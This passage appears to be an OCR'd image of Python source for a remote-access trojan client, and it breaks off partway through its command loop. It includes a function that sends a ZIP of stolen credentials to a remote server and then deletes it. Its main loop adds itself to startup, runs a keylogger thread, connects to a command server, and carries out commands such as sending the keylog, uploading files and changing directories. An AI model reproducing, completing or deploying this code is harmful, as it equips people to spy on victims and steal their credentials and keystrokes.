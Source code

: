 # Send stolen credentials ZIP file to server
def send_creds_zip(client_socket):
    zip_path = steal_creds_zip()
    if not zip_path or not os.path.exists(zip_path):
        client_socket.sendall("NO_CREDS".encode())
        return
    try:
        client_socket.sendall("READY".encode())
        time.sleep(0.5)
        with open(zip_path, "rb") as file:
            while True:
                chunk = file.read(CHUNK_SIZE)
                if not chunk:
                    break
                client_socket.sendall(chunk)
            client_socket.sendall(EOF_MARKER.encode())
        os.remove(zip_path)
    except Exception:
        try:
            client_socket.sendall("NO_CREDS".encode())
        except Exception:
            pass

# Main loop: connect to server, listen for commands, execute
def main():
    add_to_startup()
    if not os.path.exists(KEYLOG_FILE):
        with open(KEYLOG_FILE, "w", encoding="utf-8"):
            pass
    threading.Thread(target=keylogger_thread, daemon=True).start()
    while True:
        try:
            client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            print("Connecting to server...")
            client_socket.connect(SERVER_IP)
            print("Connected.")
            while True:
                try:
                    server_command = client_socket.recv(1024)
                    if not server_command:
                        break
                    command = server_command.decode(errors="ignore").strip()
                    if command.lower() in ("exit", "stop"):
                        client_socket.close()
                        sys.exit(0)
                    elif command.lower() == "get_keylog":
                        send_keylog(client_socket)
                    elif command.lower() == "check_startup":
                        result = check_startup()
                        client_socket.sendall(result.encode())
                    elif command.lower() == "pwd":
                        result = pwd_command()
                        client_socket.sendall(result.encode())
                    elif command.startswith("upload "):
                        filename = command[len("upload "):].strip()
                        receive_file(client_socket, filename)
                    elif len(command) == 2 and command[1] == ":":
                        msg = change_drive(command)
                        client_socket.sendall(msg.encode())
                    elif command.startswith("cd "):